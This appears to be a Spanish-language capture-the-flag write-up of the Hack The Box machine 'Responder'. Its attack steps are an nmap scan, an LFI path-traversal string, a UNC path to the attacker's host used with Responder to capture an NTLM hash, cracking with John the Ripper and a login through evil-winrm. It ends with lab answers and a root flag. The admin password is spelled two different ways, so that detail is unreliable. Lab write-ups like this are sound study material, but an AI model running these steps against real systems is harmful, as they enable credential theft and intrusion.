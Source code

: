 ```yaml
---
title: HTB - Responder
date: 2022-06-19 3:30:00
categories: [Hack The Box, Starting Point]
tag: [Web, Responder, LFI]
img_path: /assets/img/htb/responder
image:
   path: preview1.png
   width: 345
   height: 164
   alt: 
---
```


<h2 style="color:#9C3D54">Escaneo</h2>
---
Realizamos un escaneo de `nmap` para identificar los puertos abiertos y servicios.

```console
nmap -v -p- --min-rate 5000 -sV -sC {target ip}
```

Resultado del escaneo:

```console
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 15:41 CDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Nmap scan report for 10.129.39.225
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.94 seconds
```

Visitamos el servidor web corriendo en el puerto 80 mediante el navegador web.

![](Pasted image 20220427161647.png)
![](Pasted image 20220427161628.png)

Nos redirige a una pagina web llamada `unika.htb`. Debido a que nos encontramos dentro de la misma red que la máquina objetivo y que ese dominio no esta registrado en un servidor DNS, procedemos a agregar la ip y el nombre de dominio al archivo `/etc/hosts` para poder visualizar la pagina web.

![](Pasted image 20220427162215.png)

Ahora ya podemos visualizarla.

![](Pasted image 20220427162345.png)

Navegando por la página nos encontramos con un apartado para cambiar el idioma, si nos fijamos en la url se ve como se incluye un archivo llamado `french.html` mediante otro archvio llamado `index.php`.

![](Pasted image 20220427162745.png)

Vamos a pasarle al parámetro <b style="color:#800000">"page"</b> la siguiente cadena para saber si es vulnerable a <b style="color:#800000">LFI</b> y como consecuencia a <b style="color:#800000">path traversal</b>.

```console
../../. ./../../../../../windows/system32/drivers/etc/hosts
```

![](Pasted image 20220427163537.png)

![](Pasted image 20220427163432.png)

Como podemos ver existe una vulnerabilidad en esta web.

<h2 style="color:#9C3D54">Ganando Acceso (Admin)</h2>
---
Regresando al escaneo, el puerto `5985` se encuentra abierto lo que quiere decir que <b style="color:#800000">WinRM</b> esta disponible. Podemos aprovecharnos del <b style="color:#800000">LFI</b> de la página web para capturar el <b style="color:#800000">hash NTLM</b> de la máquina con ayuda de la herramienta `responder`.

Vamos a ejecutar la herramienta con el siguente comando.

```console
sudo responder -I tun0
```
> `tun0` es la interfaz de red de nuestra máquina
{: .prompt-info }

![](Pasted image 20220427170550.png)

Verificamos que el servidor <b style="color:#800000">SMB</b> este activado.

![](Pasted image 20220427170523.png)

Mientras `responder` esta esperando una conexion, nos dirigimos a la URL de la página web e ingresamos la siguiente cadena en el parámetro page.

```console
//{our machine ip}/somefile
```
Esto para que la página incluya un "recurso" de nuestro servidor `SMB` y se establezca una conexión.

![](Pasted image 20220427171130.png)

Vemos en la terminal que se ha capturado el <b style="color:#800000">hash NTLM</b>.

![](Pasted image 20220427171250.png)

Guardamos el hash en un archivo de texto y lo desciframos con ayuda de la herramienta `John The Ripper` .

![](Pasted image 20220427171705.png)

```console
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

![](Pasted image 20220427172056.png)

A continuación utilizamos la herramienta `evilwinrm` para autenticarnos en el sistema con las credenciales obtenidas.

```console
evil-winrm -i {target ip} -u administrator -p badminton
```

![](Pasted image 20220427172504.png)

Ahora solo queda buscar el archivo `flag.txt`. 
> Este se encuentra en la ruta `C:\Users\mike\Desktop`.
{: .prompt-info }

![](Pasted image 20220427172844.png)

<h2 style="color:#9C3D54">Preguntas</h2>
---
1. ¿Cuántos puertos TCP están abiertos en la máquina?

   <b style="color:#800080">3</b>

2. Al visitar el servicio web utilizando la dirección IP, ¿cuál es el dominio al que se nos redirige?

    <b style="color:#800080">unika.htb</b>

3. ¿Qué lenguaje de secuencias de comandos se utiliza en el servidor para generar páginas web?

    <b style="color:#800080">php</b>

4. ¿Cuál es el nombre del parámetro de URL que se usa para cargar diferentes versiones de idioma de la página web?

    <b style="color:#800080">page</b>

5. ¿Cuál de los siguientes valores para el parámetro `page` sería un ejemplo de explotación de una vulnerabilidad de inclusión de archivo local (LFI): "french.html", "//10.10.14.6/somefile", "../../. ./../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

    <b style="color:#800080">../../. ./../../../../../windows/system32/drivers/etc/hosts</b>

6. ¿Qué significa NTLM?

    <b style="color:#800080">New Technology LAN Manager</b>

7. ¿Qué indicador usamos en la utilidad Responder para especificar la interfaz de red?

    <b style="color:#800080">-I</b>

8. Hay varias herramientas que aceptan un desafío/respuesta de NetNTLMv2 y prueban millones de contraseñas para ver si alguna de ellas genera la misma respuesta. A una de estas herramientas se la suele denominar `john`, pero el nombre completo es ¿cuál?.

    <b style="color:#800080">John The Ripper</b>

9. ¿Cuál es la contraseña para el usuario administrador?
 
    <b style="color:#800080">batminton</b>

10. Usaremos un servicio de Windows (es decir, que se ejecuta en la caja) para acceder de forma remota a la máquina Responder usando la contraseña que recuperamos. ¿En qué puerto TCP escucha?

     <b style="color:#800080">5985</b>

**Root Flag:** <b style="color:#FF8B00">ea81b7afddd03efaa0945333ed147fac</b>

![](Pasted image 20220427134218.png)
